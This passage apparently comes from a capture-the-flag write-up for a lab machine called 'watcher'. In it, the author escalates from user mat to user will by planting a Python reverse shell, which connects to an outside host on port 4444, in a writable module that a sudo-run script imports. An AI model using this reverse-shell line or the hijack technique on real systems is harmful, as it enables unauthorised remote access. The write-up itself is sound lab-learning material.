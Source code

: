 ```bash
  os.system(cmd)
```

The script simply checks whether the command is part of the array whitelist. The `get_command` function, imported from the `cmd.py` file, returns a command based on a number provided as an input parameter to `will_script.py`:  
```bash
mat@watcher:~/scripts$ cat cmd.py 
  def get_command(num):
          if(num == "1"):
                  return "ls -lah"
          if(num == "2"):
                  return "id"
          if(num == "3"):
                  return "cat /etc/passwd"
```

I checked the permissions if I could modify one of the files and found that I indeed had the ability to modify `cmd.py`:
```bash
mat@watcher:~/scripts$ ls -al
  total 16
  drwxrwxr-x 2 will will 4096 Dec  3  2020 .
  drwxr-xr-x 6 mat  mat  4096 Dec  3  2020 ..
  -rw-r--r-- 1 mat  mat   133 Dec  3  2020 cmd.py
  -rw-r--r-- 1 will will  208 Dec  3  2020 will_script.py
```

To exploit this, I added a Python reverse shell to `cmd.py`:
```bash
mat@watcher:~/scripts$ cat cmd.py 
import sys,socket,os,pty;

def get_command(num):  
        s=socket.socket();s.connect(("[removed]",int(4444)));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")

        if(num == "1"):
                return "ls -lah"
        if(num == "2"):
                return "id"
        if(num == "3"):
                return "cat /etc/passwd"
```

After executing the Python script as Will, I was able to retrieve the next flag:
```bash
mat@watcher:~/scripts$ sudo -u will /usr/bin/python3 /home/mat/scripts/will_script.py "id"

will@watcher:~/scripts$ id
  uid=1000(will) gid=1000(will) groups=1000(will),4(adm)

will@watcher:/home/will$ cat flag_6.txt 
FLAG{b[removed]e}
```
